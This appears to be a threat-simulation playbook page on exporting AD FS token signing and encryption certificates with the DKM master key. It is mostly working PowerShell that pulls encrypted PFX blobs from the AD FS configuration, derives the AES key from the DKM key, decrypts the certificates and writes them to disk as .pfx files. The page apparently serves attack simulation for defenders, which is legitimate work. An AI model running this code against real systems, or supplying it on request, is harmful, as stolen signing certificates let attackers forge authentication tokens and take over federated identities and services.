

Export AD FS Certificates via DKM Master Key
Contents
Export AD FS Certificates via DKM Master Key#
A threat actor could use the AD FS configuration settings to extract sensitive information such as AD FS certificates (encrypted) and get the path to the AD FS DKM container in the domain controller. The AD FS DKM master key can then be retrieved from the AD container and used to decrypt AD FS certificate.
Table of Contents#
Preconditions#
Input:
AD FS Configuration Settings
AD FS DKM Master Key
Simulation Steps#
Extract AD FS Token Signing Certificate#
[xml]$xml=$settings
$encTokenSigningPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$encPfxBytes | Format-Hex

Extract AD FS Encryption Certificate#
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex

Decrypt Certificates#
$key = '<ADFS-DKM-KEY>'
$certs = [ordered]@{}
$certs["signing"] = $encTokenSigningPfx
$certs["encryption"] = $encEncryptionPfx
# Iterate over certificate objets
foreach ($certType in $certs.Keys) {
$encPfxBytes=[System.Convert]::FromBase64String($certs[$certType])
$guid= $encPfxBytes[8..25] # 18 bytes
$KDF_oid= $encPfxBytes[26..36] # 11 bytes
$MAC_oid= $encPfxBytes[37..47] # 11 byte
$enc_oid= $encPfxBytes[48..58] # 11 bytes
$nonce= $encPfxBytes[59..92] # 34 bytes
$iv= $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC = $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]
# Create the label
$label = $enc_oid + $MAC_oid
# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()
# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()
# Get the results
$decryptedBytes = $ms.ToArray()
$ms.Close()
$ms.Dispose()
$CertificatePath = "C:\ProgramData\ADFS_$($certType)_$(get-date -format yyyy-MM-ddTHHmmssff).pfx"
$decryptedBytes | Set-Content $CertificatePath -Encoding Byte
Get-item $CertificatePath
}
Output#
AD FS Encryption Certificate
AD FS Token Signing Certificate